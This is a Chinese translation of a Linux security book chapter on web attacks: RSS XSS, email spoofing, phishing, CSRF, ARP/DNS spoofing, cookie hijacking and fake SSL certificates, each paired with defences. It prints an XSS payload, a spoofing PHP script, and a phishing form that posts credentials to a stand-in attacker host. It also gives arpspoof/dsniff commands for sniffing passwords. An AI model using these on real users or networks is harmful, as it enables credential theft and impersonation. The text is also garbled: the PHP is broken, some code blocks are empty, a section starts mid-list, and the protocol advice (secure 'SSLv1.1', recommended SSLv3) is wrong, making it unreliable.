由于 AJAX 完全在客户端 Web 浏览器中运行，你无法采取任何措施阻止攻击者分析和操控 HTML 或 JavaScript 代码。某些开发者尝试通过将整个程序放在一行或通过对 HTML 编码使其不可见，使代码难以阅读，从而增加分析难度。然而，这些技巧可能会震慑脚本小子（script kiddies），如果专门的攻击者想要分析和操控代码，他们将使用之前描述的技巧消除这些“安全”努力。

防止 AJAX 攻击的唯一真实方法是实施适当的服务器端输入输出验证。即使攻击者枚举了每一个 AJAX 调用和每一个参数，适当输入验证技术也能确保他们无法操控应用程序的功能执行意外的操作。

## Web Feed 攻击

| 流行度 | 评分 |
|---|---|
| 简单性 | 8 |
| 影响力 | 9 |
| 风险等级 | 7 |

Web feeds（网络馈送）作为实时简单订阅（RSS）和 Atom 标准，是 XML 内容，允许 Web 开发人员创建动态网站，自动从互联网的任何地方汇集与新闻、博客、种子、邮件列表、软件、电子邮件以及许多你可以发布在 Web 上的自定义链接和信息。Web feeds 看起来是无害的；然而它们为攻击 Web 应用引入了新概念。


第一个有趣点是，你并不是使用 Web 浏览器来查看 web feeds。你的电脑上安装越来越多的 Web 阅读器，包括 Google Desktop，允许你订阅 web feeds 并让它们在侧边栏或通知弹出窗口中显示。Web 浏览器也可以作为 Web 阅读器使用，Firefox 有许多 RSS 插件。RSS 标准允许将 HTML 插入到馈目的标题、描述和其他其他部分以实现格式化；然而，允许的 HTML 仅受 web feed 客户端的限制。这意味着如果 web feed 客户端对下载的内容未执行适当的输入验证，攻击者就可以向 RSS 内容中注入恶意的 JavaScript 代码，如下例标签所示：

```
<title><script>alert('Hacked via RSS')</script></title>
```

这引出了我们第二个有趣的点。Web feeds 由 Web 阅读器定期自动下载，无需任何人工干预。这意味着 RSS 内容中包含的恶意 JavaScript 将在 Web 阅读器显示它时立即被下载并执行。这开启了从跨站脚本（XSS）、跨站请求伪造（CSRF）到本地软件漏洞的客户端利用的一系列漏洞。大多数 Web 阅读器利用 Internet Explorer 组件来显示内容，这开启了利用 Internet Explorer 漏洞攻破工作站或你的内部网络。这将是传播病毒的绝佳方法！

所以，你现在对 web feeds 感到恐惧了吗？没有？那么，你可能在不知情的情况下被阅读器自动订阅了 web feed。Google Desktop 默认有一个显示“自动添加来自经常访问网站的片段”的选项。这意味着当你浏览互联网上那些在你的搜索中出现过几次疯狂网站时，你可能会自动订阅恶意网站的 RSS 馈。

为了确保你已经理解了这一点，让我们来看一个例子。你对 IT 安全感兴趣，所以喜欢查看一些安全邮件列表，以确保自己跟上最新的攻击。你并不知道，你的 Web 阅读器捕捉到了这种模式，并决定自动为你订阅其中一个邮件列表的 RSS 馈。

一个在该邮件列表中的攻击者决定发布消息，使 RSS 项目的标题包含以下位于 JavaScript 循环中的代码，用于利用网上银行应用程序中的跨站请求伪造（CSRF）漏洞：

```
document.write('');
```

因此，你的 Web 阅读器会自动下载该列表发布的邮件，导致恶意的 JavaScript 循环在后台执行而你却不知，即使对于邮件列表网站也是如此。

当天些时候，你登录网上银行 Web 应用程序检查工资是否到账。JavaScript 循环再次出现，触发了网上银行应用程序的 CSRF 漏洞，你现在已通过应用程序验证，你的 Web 浏览器会自动随此漏洞发送 cookie 值，从而更改你的网上银行账户密码。由于该邮件列表的流行程度，大量人员受到了此攻击的影响，导致攻击者可以使用新设置的密码 hacked 密码对网上银行账户码进行暴力破解。

这是攻击者如何利用 web feeds 的一个例子。正如之前提到的，客户端漏洞也可以被针对，以获取你内部网络主机的控制权。现在变得越来越明显，进入组织的最佳方法不再是利用组织网络边界设备上的漏洞，而是针对客户端应用程序，包括 Web 浏览器、浏览器 插件以及感知 Web 的客户端应用程序。这是因为几乎每个组织将其安全预算的大部分花在网络边界实施安全基础设施上，包括防火墙、入侵检测和防御设备、物理隔离的网络分段，

# 攻防 Linux 系统：Linux 安全秘密与解决方案

负载均衡器和防病毒系统。这通常会在网络中留下一个巨大的、粘性的黑洞，所有的安全都会死于那里。讽刺的是，这个黑洞正是组织中安全意识最薄弱的员工所在地。在过去，这些人不再是玩纸牌，而是在浏览互联网寻找所有最新且最信赖的网站，这导致他们容易受到客户端攻击，例如上文描述的那种攻击。这使得攻击者能够在你的内部网络中立足，并通常允许其渗透整个环境。

# 防止 Web 馈送被劫持：白名单输入验证

从开发者的角度来看，读取软件应该设计为针对特定的 HTML 标签使用白名单，例如 `<b>` 和 `<h1>` 等，并拒绝任何不符合这些规则的内容。白名单是 Web 应用程序或 Web 相关软件进行任何输入验证的最佳方法，因为黑名单无法捕捉所有的恶意输入，因此可能会被绕过。

遗憾的是，由于 Web 馈送（Web feeds）的特性，作为用户你无法做很多来阻止这种攻击的发生。你可以采取的唯一真实保护是仅使用知名且信赖的 Web 阅读器，这些阅读器的开发者拥有经验，了解风险，并在软件内部实现了安全的输入验证检查。还应该检查 Web 馈送阅读器的默认配置，以确保任何不安全的选项已加固，例如自动订阅。

# 信任操纵

信任关系以多种形式和向量存在，包括人与人之间、人与系统之间或系统与系统之间的关系。如果攻击者能够确定或假设这些信任关系可能是什么，他们就可能利用这些关系获得对系统、应用程序和数据的未经授权的访问。这些关系可以通过执行社会工程学攻击或通过直接攻击系统之间的逻辑连接被操纵。

# 信任与意识劫持

这里是回顾攻击者通过本章中讨论的所有攻击到目前为止所取得的成就的好时机。这将帮助你清晰地看到你新开发的武器库中的信息，然后我们可以讨论如何利用这些信息通过信任操纵来实施致命攻击。

被动剖析分析和情报侦察展示了你如何收集有关组织的信息，包括产品和服务、策略、财务状况和外部业务关系。你还可以收集有关个人的特定细节，涉及个人的个人信息、技能以及内部和外部关系。系统枚举揭示了深入的技术信息，让你能够发现组织的内部运作。

主动 Web 应用程序枚举允许你对组织的 Web 应用程序进行枚举、访问和指纹识别，并绕过安全控制。这让你能够发现内部系统的底层技术信息，以及与之相关的某些漏洞。然后你可以攻击并利用 Web 应用程序和 Web 服务来尝试渗透 Web 和主机。

# 身份伪造

| 流行度 | 8 |

| :--- | :--- |

| 简单性 | 8 |

| 影响 | 7 |

| 风险评分 | 8 |

你可以使用 PHP 中的 `mail` 函数来生成和自定义电子邮件消息，包括操纵邮件头的能力，使邮件看起来像是来自另一个人的电子邮件账户。下面的代码列表演示了一个 PHP 脚本，它将从 `mark.manager@organization.com` 向 `eric.employee@organization.com` 发送邮件。

```php
<?php
$headers = "From: Mark Manager <mark.manager@organization.com>\r\n";
$headers .= "MIME-Version: 1.0\r\n";
$boundary = "uniqid('SPOOFINGIDENTITIESDEMO')";\r\n";
$boundary .= "Content-Type: multipart/alternative\r\n";
$boundary = $boundary\r\n";
$headers .= "This is a MIME encoded message.\r\n";
"--$boundary--\r\n";
"Content-Type: text/html; charset=ISO-8859-1\r\n";
"Content-Transfer-Encoding: base64\r\n";
$headers .= chunk_split(base64_encode("<html><body>Hi Eric, <br> I have just ...<br></body></html>"),\r\n);
$subject="Your ENUM Server Account";
mail("eric.employee@organization.com", $subject, "", $headers);
?>
```

利用在前章节中收集的信息，攻击者能够生成一封几乎无懈可击的电子邮件，可用于操纵员工提供敏感信息或系统访问权限。除了那些糟糕的名字，你的员工中有多少人会被图 13-13 所示的结果邮件所欺骗。

这封邮件增加了员工的许多信任关系，主要在潜意识层面。它看起来来自他的经理，这是一个权威人物，这往往会消除对请求的任何质疑。它是针对员工进行个性化的，

# 攻防 Linux 系统：Linux 安全秘密与解决方案



这使得邮件看起来真实。它将攻击者置于受信任的组（IT 服务部门）中，建立了一种信任关系。它使用了与内部系统和之前系统问题的详细信息，并夹杂了一些专业术语。对于非技术人员来说，这封邮件可能对所提供的技术细节引起一些困惑，但在员工需要纠正的情况的操作上，它是非常清晰的。然后，底部的签名是广泛使用的标准组织格式。这些目标之一最初可能是意识劫持，攻击者通过伪造权威人物的身份来试图操纵

# 第 13 章：Web 应用程序攻击

员工认为包含在组织策略中的。这可能允许攻击者利用此绕过组织策略。

# 防止身份伪造：安全策略与意识培训

正如我们本章之前提到的，应该对所有员工进行安全意识培训，以确保他们理解违反安全策略可能产生的影响。

如果你的员工知道如何识别骗局、判断邮件是否合法、验证网站是否为虚假，并知道按照流程向相关人员报告攻击，那么攻击者将必须费巨大的代价才能穿透人类层。

# 伪造 Web 应用程序

| 流行度 | 8 |

| :--- | :--- |

| 简单性 | 8 |

| 影响 | 10 |

| 风险评分 | 9 |

组织可以防止多种面向互联网的 Web 应用程序，包括网上银行应用程序、网页邮箱和 SSL VPN。每个 Web 应用程序在受到破坏时都会产生自己的风险。假设我们的目标组织运行着 SSL VPN，员工通过它远程访问各自的服务器和文件。

由于该 Web 应用程序面向互联网，攻击者能够镜像登录页面并将其放在自己的 Web 服务器上。最简单的方法是使用喜爱的浏览器访问 Web 应用程序并选择“另存为……”选项。这会将 HTML 代码以及所有所需的图像和文件生成到本地硬盘指定的目录。你也可以使用 Linux 工具（如 `wget` 或 `curl`）镜像网站。

一旦伪造的网站镜像到攻击者的 Web 服务器上，攻击者现在需要修改 HTML 代码以执行所需的操作。这可能仅仅是更改表单的 `action` 属性，将身份凭据提交到攻击者 Web 服务器上的一个程序，而不是组织的 Web 服务器上：

```html
<FORM action="http://www.malicious_site.com/capture.php" method=POST>
```

这个 `capture.php` 程序可能会将凭据附加到电子邮件或将其保存给攻击者，正如上文描述的那样。这种攻击通常被称为钓鱼攻击。执行这种攻击的方法之一是创建一个包含链接的 HTML 电子邮件

表面上看，这似乎指向组织的内部 Web 应用程序；然而在 HTML 源代码中，该链接实际上指向了攻击者的钓鱼网站：

```
<a href=http://www.malicious_site.com/spoofed.php>Click Here</a>
```

图 13-14 显示了一个包含该链接的伪造邮件示例，其中链接“Click”指向了钓鱼网站。

这类攻击的主要弱点在于，在许多情况下，浏览器窗口的地址栏中可能会包含攻击者的 URL `www.malicious_site.com`，这可能会引起受害者对攻击的警觉。实际上，攻击者往往注册与目标组织相似的域名（略有修改），例如 `www.organization.com`，或者为他们已经拥有的域名创建一个子域名，例如 `organization.malicious_site.com`。

攻击者的 URL 可能通过以下方式被隐藏：邮件中的链接指示浏览器在不显示地址栏的情况下打开窗口；或者利用组织网站存在的跨站脚本（XSS）等漏洞，这允许攻击者让合法的组织域名实际出现在地址栏中。

## 防止伪造 Web 应用程序

越来越多的服务正以 Web 应用程序的形式在互联网上实现，随着这些服务的出现，对 Web 应用程序内部及其周围的安全需求日益增长，对可作为攻击向量的其他服务（如电子邮件）的安全需求也在增加。因此，提高社会工程攻击的人类接收者的安全意识也变得至关重要。

## 安全策略与意识培训

我们再次回到了安全意识培训，这是为了强化一个经常被忽视的组织安全领域。这再次证明了安全意识培训实际上是多么重要。

## 过滤解决方案

利用技术手段最大限度地减少员工面对这些诈骗的次数，包括基于网络和基于主机的反钓鱼、反垃圾邮件和防杀病毒解决方案。

## 最小化并保护 Web 应用程序

你还应该尽量减少开放到互联网上的 Web 应用程序数量，因为每一个程序都会增加组织的风险，并可能被攻击者用来欺骗员工提供用户名和密码等敏感信息，从而访问组织的内部网络。如果可能，这些应用程序应该在通过 IPsec VPN 身份验证后才能访问。

## 第 13 章：Web 应用程序攻击



图 13-14 钓鱼邮件诱骗用户访问伪造的 Web 应用程序

## 跨站请求伪造

| 流行度 | 7 |

| :--- | :--- |

| 简单性 | 7 |

| 影响 | 9 |

| 风险评分 | 8 |

跨站请求伪造（Cross-site request forgery），又称为会话劫持（session riding），是一种有趣的漏洞。它允许攻击者利用用户已经登录 Web 应用程序的事实，因此攻击者可以欺骗用户执行已授权的操作，而用户可能完全不知情。

这种漏洞的一个绝佳例子是：用户登录了自己的网页邮件服务，攻击者向用户发送了一封包含更改密码链接的邮件。这种攻击并不一定依赖于用户点击链接甚至看到链接。如果链接嵌入在 HTML 邮件的 `IMG` 标签中，那么当浏览器尝试加载图像时，该操作将自动执行，如下：

```

```

跨站请求伪造也可以通过存储型 XSS 标签实现，导致任何访问该页面的用户都会通过注入的 `IMG` 标签中的链接更改密码，不幸的是，让攻击者可以使用新设置的密码登录任何用户的账户。这种攻击也可以使用 JavaScript，通过 HTTP POST 方法或 AJAX 调用完成。

如果 Web 应用程序在用户离开应用时不会超时，攻击者可能会诱导用户访问包含恶意 `IMG` 标签或 JavaScript 的恶意网站，这些内容可以立即利用仍处于身份验证状态的会话。

取决于被攻击应用程序的价值，跨站请求伪造可能会产生更严重的后果。黑客可能强制一个已登录的网上银行账户从其账户转资金到攻击者的账户，而用户甚至完全不知道这已经发生。

这种攻击假设攻击者知道所需操作内部 Web 应用程序 URL，例如从一个账户向另一个账户转账的确切 URL。如果攻击者拥有目标 Web 应用程序的账户，或者能够下载并设置 Web 应用程序的副本，那么克服这一点并不困难。

## 防止跨站请求伪造

Web 应用程序的设计应该在每个单独请求中包含一个唯一的条目，以防止攻击者获取执行恶意请求所需的 URI，如下所示。此唯一条目应该位于用于维护会话状态的 cookie之外。

```
http://www.example.com/password.php?id=a529cd928fb29f985e&http://www.example.com/password.php?id=ed0143c5a2c9512b1
```

在 Web 应用程序的敏感功能中使用确认页面和重新身份验证也将使攻击者难以成功执行此类攻击，因为他们需要请求多个页面来实现目标（可以使用 AJAX 实现），或者输入只有用户才知道的细节（例如原始密码）。

在高度安全的环境中，应该使用不同的浏览器产品访问互联网和 Web 应用程序，例如 Opera 或 Firefox。不应使用默认浏览器访问敏感的应用程序。这将确保会话不会被恶意链接滥用。

## 第 13 章：Web 应用程序攻击

当用户离开应用程序进入域名时，应强制会话超时。这将防止恶意站点触发攻击。以下代码片段是一个 AJAX 代码示例，用于检测用户离开应用程序，并触发终止会话的请求。

```
function logout() {
  try {
    xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
  } catch (e) {
    xmlHttp = new XMLHttpRequest();
  }
  xmlHttp.open("post","Logout.php?Type=LogOut",true);
  xmlHttp.send(null);
}
window.onbeforeunload = logout;
```

# Hacking Exposed Linux: Linux 安全秘密与解决方案

- 2. 针对你想执行的攻击运行相关工具。在这种情况下，我们将使用 `dsniff` 嗅探：

- 3. 设置双向 ARP 缓存中毒，以捕获发送和接收的流量。如果不在两个方向都设置，可能会导致受害者主机发生拒绝服务攻击。从第二个终端界面，运行 `arpspoof` 来投毒第一个主机：

```
arpspoof -t {host1} {host2}
```

- 4. 从第三个终端，运行 `arpspoof` 来投毒第二个主机：

```
arpspoof -t {host2} {host1}
```

- 5. 终端 `dsniff` 开始从网络流量中嗅探用户名和密码。

# DNS 欺骗

| 流行度: | 4 |

| 简单性: | 7 |

| 影响: | 8 |

| 风险评分: | 6 |

当用户通过网络浏览器请求网站（例如 http://webmail.example.com）时，一个 DNS 请求会被发送到配置的 DNS 服务器，然后服务器返回一个包含与 URL 对应的 IP 地址的 DNS 回复。网络浏览器连接到该 IP 地址并下载请求的页面。


假设攻击者在本地网络的攻击机器上设置了该网站的欺骗版本，该版本模仿用户请求的真实网站。通过执行 ARP 欺骗攻击，黑客将在网络流量中看到这些 DNS 请求，并能够向用户发送包含攻击者 IP 地址的欺骗 DNS 回复。用户的浏览器随后将连接到攻击者的机器并下载欺骗页面。用户随后可能会尝试登录邮件应用程序，从而允许攻击者捕获用户的身份凭据，并让攻击者访问真实的邮件应用程序。

为了确保攻击者的欺骗 DNS 回复在实际 DNS 服务器回复之前到达用户，黑客可以使用 ARP 欺骗来执行拒绝服务攻击，将 DNS 服务器的回复重定向到一台不存在的机器。这停止了任何间歇性问题，使得攻击执行得更加可靠。

这种攻击成功利用了用户浏览器与组织内部 DNS 服务器之间的信任关系，以及用户在浏览器地址栏看到正确 URL 时建立的信任关系。

# 第 13 章：Web 攻击

## 防止 DNS 欺骗

DNS 往往是一个在涉及安全时被忽略的协议，尽管它可以被滥用于多种方式执行各种攻击。组织内部几乎每个 DNS 实现都是不安全的，需要一些迫切的关注，特别是在涉及中间人攻击（MITM）时。

### 静态 ARP 条目

没有任何特定的 DNS 配置可以阻止攻击者通过 MITM 攻击捕获 DNS 请求。因此，DNS 欺骗的解决方案需要更多地针对击败 MITM 攻击。

在 Linux 上可以通过静态 ARP 条目防御 ARP 欺骗攻击，这将缓解许多 MITM 攻击。这将确保伪造的 ARP 回复无法污染 Linux 服务器上的本地 ARP 缓存。其他操作系统在使用静态 ARP 条目时可能会脆弱。静态 ARP 条目并不是该问题的流行解决方案，因为它们难以管理；因此，ARP 监控软件（如 `arpwatch`）是检测 MITM 攻击的更流行的解决方案，而不是防止它们。

MITM 攻击通常非常有效，因为每个 VLAN 中都有大量的系统。通过创建仅包含极少数系统的 VLAN，你限制了攻击者可以使用这种攻击进行投毒的目标。

### 动态 ARP 检查和 DHCP 探嗅

Cisco 在其交换机中集成了名为动态 ARP 检查（Dynamic ARP Inspection）和 DHCP 探嗅（DHCP Snooping）的解决方案以防止 ARP 缓存中毒。

交换机保留从 DHCP 学到的 `<IP, MAC>` 映射记录，因此可以根据此映射检测并丢弃任何伪造的 ARP 回复。这种技术被称为动态 ARP 检查 `DAI`。`DAI` 不影响正常的 ARP 流量（正常的 ARP 请求而非免费 ARP）。只有伪造的 ARP 包会被丢弃。可以在 Cisco 交换机上使用以下命令启用此：

```
Switch(config)# ip arp inspection vlan (number)
Switch(config)# interface (X)
Switch(config-if)# ip arp inspection trust
```

攻击者的下一步将是通过 DHCP 请求和响应来伪造交换机的映射。交换机有一个名为 DHCP 探嗅的功能，应该启用以防止这种攻击。

作为额外的步骤，管理员还应该将 VLAN 成员限制在尽可能少的主机上，即使执行了 ARP 缓存中毒，主机数量也会受到限制。

# Hacking Exposed Linux: Linux 安全秘密与解决方案

## 未加密攻击

| 流行度 | 7 |
| 简单性 | 7 |
| 影响 | 9 |
| 风险评分 | 8 |

HTTP 协议最初被设计为无状态协议，这意味着到 Web 服务器的连接在请求的项目被完全检索后就会销毁。随着 Web 应用程序变得越来越复杂，必须创建 cookie 或会话标识符来保持用户是否经过身份验证、用户是谁，以及她或他是否有权访问 Web 应用程序的不同部分的状态。这些会话标识符需要在每次请求时传输，以确保 Web 应用程序能够对用户是否允许访问请求的 Web 部分做出决定。

如果在本地局域网（LAN）上使用未加密的 HTTP 流量，执行 MitM 攻击的攻击者可以捕获会话标识符。这些标识符可以被用于伪装用户并在无需密码的情况下访问其账户。为了防止这一点，主要的解决方案是使用 HTTPS 代替 HTTP。

## 防止未加密攻击

如今，捕获未加密的流量是轻而易举的。假设在大多数情况下攻击者可以捕获密码和 cookie。

### 使用加密！

令人惊讶的是有多少组织仍然坚持使用未加密的协议来管理其基础设施。由于我们本章只关注 Web 应用程序，一个简单的解决方案是使用 HTTPS 传输所有敏感数据，如用户名、密码、cookie 和会话标识符。

然而，正如你在后续章节中看到的，仅仅使用 HTTPS 并不会让连接安全。

### 强身份验证

使用的身份验证机制的类型和复杂性相对于该机制所保护的资产、信息或功能的风险和价值。

这意味着对于低价值的 Web 应用程序（如 Web 论坛），HTTPS 上的基础或摘要认证（digest authentication）技术可能足够。对于包含高价值资产的网站，例如网上银行应用程序或 SSL VPN，需要实施更复杂的身份验证机制和策略。

一种解决方案可能是使用基于短信的一次性密码 `OTP` 来降低身份凭据被反复多次窃取的风险。然而，这些方法并非万无一失，这些 OTP 可以通过各种方法被窃取，包括我们在本章中讨论过的欺骗网站。数字证书也可以用于身份验证，它们比用户名和密码更难被盗，但如果用户的机器被破解，也会让你的应用程序面临风险。

Web 应用程序可能希望在执行高价值交易时重新验证用户。这加强了 OTP 身份验证方法，因为攻击者现在需要在不同时间获取多个 OTP。

如果不是 OTP 身份验证机制，则应该根据业务要求强制强密码并定期更改。应该教育用户为什么需要强密码以及如何构造强密码。短语（passphrases）也可以一种选择，以确保密码足够长，以至于密码破解技术（如彩虹表）不可行，并且用户容易记住。应该注意的是，无论你的密码有多强，如果用户在欺骗网站上输入，账户就会被破解。

#### 多会话

Web应用程序不应允许同一个账户拥有多个活动会话。这使得已经攻破用户身份验证凭据的攻击者可以在任何时间访问 Web应用程序而不被察觉。

#### 不安全的 Cookie

| 流行度: | 4 |
| 简单性: | 7 |
| 影响范围: | 8 |
| 风险等级: | 6 |

某些组织在其 Web 应用中同时使用 HTTP 和 HTTPS，目的是允许非敏感信息通过 HTTP 传输，并利用 HTTPS 对应用程序中更敏感的部分进行加密。这在网上银行网站中很常见，银行的主页通过 HTTP 显示；但当用户浏览到该网站的网上银行站点时，Web 应用将强制用户使用 HTTPS 以确保敏感机密信息得到加密。

这听起来是一个很好的设置；然而，如果 Web 应用在 HTTP 和 HTTPS 上使用相同的 Cookie，那么攻击者就可以在 Cookie 通过 HTTP 穿越网络时捕获它们。这些 Cookie 随后可以用于对网上银行应用程序进行会话劫持。

假设 Web 应用已经经过重构以修复此安全漏洞，仅在用户使用网站的 HTTPS 部分后才设置 Cookie。由于 Cookie 未在网络上加密传输，因此攻击者无法捕获到任何明文数据。

如果用户决定离开网站的 HTTP 部分并返回通过 HTTP 传输的主页，会发生什么？从技术上讲，请求仍然发送到同一个网站，因此会话详情将再次通过浏览器在网络上未加密发送。这允许攻击者捕获 Cookie 以执行会话劫持，获取对 Web 应用的访问。同样，如果 Web 应用通过 HTTP 请求图像或其他非敏感项目，会话详情将再次以明文形式发送。

为了确保无法进行反向工程，请确保 Cookie 和会话标识符是不可预测的。

经常发现由 Web 应用本身生成的自定义 Cookie 使用了不安全的 Cookie 生成算法。许多开发者使用时间戳和递增标识符的组合——在运气好的情况下，他们可能会对 Cookie 进行编码。如果攻击者能够访问 Web 应用并获得有效的 Cookie，他们可能能够对 Cookie 生成算法进行反向工程，从而预测其他用户的会话标识符。如果成功，攻击者可能可以执行会话劫持，获得对 Web 应用上任何活动会话的未身份验证访问。

#### 防止不安全的 Cookie：Cookie 安全

确保在 HTTP 会话中使用的 Cookie 永远不在 HTTPS 会话中使用。HTTPS 会话中使用的所有 Cookie 都应该被标记为安全（secure），这样它们在访问网站的 HTTP 会话时就不会以明文形式传输。可以使用 Apache `::Cookie` Perl 模块设置 Cookie 的安全标志。如果 Web 服务器显式地为每个 Cookie 标记了安全标志，那么理论上浏览器应该尊重此设置，并仅通过安全连接传输 Cookie。

同样，Cookie 还应该标记为 `HTTPOnly` 标志，以防止客户端脚本访问 Cookie 值。这可以防止跨站脚本攻击（XSS）等攻击将你的会话标识符发送给攻击者以进行会话劫持。遗憾的是，并非所有浏览器都支持 `HTTPOnly` 标志，因此你应该检查你支持的浏览器是否支持。

为了保证发生 Cookie 反向工程，请确保自定义 Cookie 和会话标识符使用安全的算法，而不是开发者简单拼凑的算法。这将确保 Cookie 值是不可预测的，并且无法通过这种方法进行会话劫持。

#### 伪造 SSL 证书

| 流行度: | 7 |
| 简单性: | 8 |
| 影响范围: | 8 |
| 风险等级: | 8 |

到本章目前为止，我们讨论了对基于 HTTP 的连接进行 MITM 攻击，假设 HTTPS 加密连接是安全的。事实并非如此，因为 SSL 依赖于弱绑定的公钥证书，并且在显示浏览器警告时提供了取消连接的选项。

当用户通过 HTTPS 请求网站时，服务器将向用户发送受信任证书颁发机构（CA）签名的 SSL 证书。浏览器根据其自身的受信任 CA 数据库检查此 SSL 证书，以确定是否信任该网站。

如果攻击者在本地局域网（LAN）执行 ARP 欺骗攻击，且网络上的用户启动了 HTTPS 连接，攻击者就可以拦截请求并向用户生成伪造的 SSL 证书，声称攻击者就是请求的站点。

由于此 SSL 证书不是由受信任的 CA 签署的，网络浏览器将显示对话框警告用户可能正在攻击。得益于用户与其内部和外部 Web 应用程序之间的信任关系，大多数用户会直接接受浏览器显示的任何警告，最终导致此类攻击的发生。

在此阶段，攻击者的机器将充当用户与真实世界之间的透明代理，解密之间的通信，允许 HTTPS 流量以明文形式进行分析，从而使用户名、密码和其他敏感信息被枚举。这一过程在图 13-15 中所示。

##### 防止伪造 SSL 证书：安全意识培训

安全意识培训在 Web 安全中再次起着重要作用。教育用户使他们理解各种网络浏览器警告的含义。应该教他们实际上去阅读警告，而不是简单地点击 OK 而没有意识到可能发生了攻击。遗憾的是，由于出现了大量的对话框，微软进一步助长了点击忽略安全警告的习惯。

#### 弱加密套用件和加密协议

| 流行度: | 2 |
| 简单性: | 4 |
| 影响范围: | 6 |
| 风险等级: | 4 |

在谈论加密套用件和加密协议时，误解很常见。通俗地说，加密套用件决定了用于加密的算法。加密协议（如 `SSLv2`、`SSLv3` 和 `TLSv1.x`）定义了终端之间如何进行通信。

Web 服务器配置的常见漏洞包括使用弱加密套件，包括密钥小于 128 位的套件。执行 MITM 攻击的攻击者能够解密加密会话以显示明文，可能允许他们收集敏感信息。

随着时间的推移，许多加密协议被发现了安全漏洞。`SSLv2` 曾是首选的加密协议；但它被发现容易受到截断攻击等攻击，攻击者执行 MITM 攻击来截断 `SSLv2` 通信，而网络浏览器或 Web 服务器毫无察。例如，对 Web 应用的身份验证请求可能被截断以操控密码。当然，有更容易的方法锁定账户。

`SSLv2` 还容易受到降级攻击，攻击者能够拦截并操纵 `SSLv2` 协议，强制选择较弱的加密套件。如果服务器和客户端支持空加密（null ciphers），加密套件可以降级到在网络上以明文传输数据。否则，可以选择最弱的加密套件，这种降级攻击允许攻击者更快地破解加密密钥。

##### 防止弱加密套用件和加密协议：强加密

为了防止攻击者利用弱协议或加密套件的漏洞，请配置 Web 服务器和网络浏览器仅接受最新的安全加密协议和加密套件标准。

`SSLv1.1`、`TLSv1.0` 和 `TLSv1.1` 目前被认为是安全的加密协议；然而，管理员应跟进这些协议中出现的任何风险和配置错误。

`SSLv3` 通过在加密数据中包含客户端识别为支持 `SSLv3` 信息解决了降级攻击。服务器随后应检测到降级攻击，意识到它正与支持 `SSLv3` 的客户端通过 `SSLv2` 协议通信并终止握手。但并非所有 `SSLv3` 服务器都实现了降级检测。

安全的加密套件应包含至少 128 位密钥，最好是 168 或 256 位。Web 服务器支持的加密算法，如 `DES`、`3DES`、`AES` 也需要仔细选择，因为即使密钥长度很长，弱弱的算法也可能让你的系统变得脆弱。

通过使用以下 Apache 配置选项，你可以创建一个仅支持 `SSLv3` 和 `TLSv1` 协议的 HTTPS 服务器，并仅允许 Web 服务器接受强加密套件：

```
SSLProtocol -all +SSLv3 +TLSv1
SSLCipherSuite HIGH
```

此外，配置你的 Web 浏览器仅接受强加密，以确保攻击者无法通过中间人（MITM）攻击来降级加密强度。

# WEB 基础设施攻击

复杂的 Web 应用程序可能跨越多个安全层和多种服务器类型，以确保 Web 应用的安全、功能和性能。这可能包括 Web 服务器、应用服务器、数据库服务器、授权与验证服务器、DNS 服务器、Web 代理、缓存服务器、负载均衡器、防火墙以及入侵检测防护设备。这些 Web 基础设施组件有时可以被检测，并识别出可能用于攻击 Web 应用的漏洞。

## Web 基础设施检测

| 流行度: | 3 |
| 简单性: | 6 |
| 影响: | 3 |
| 风险评分: | 4 |

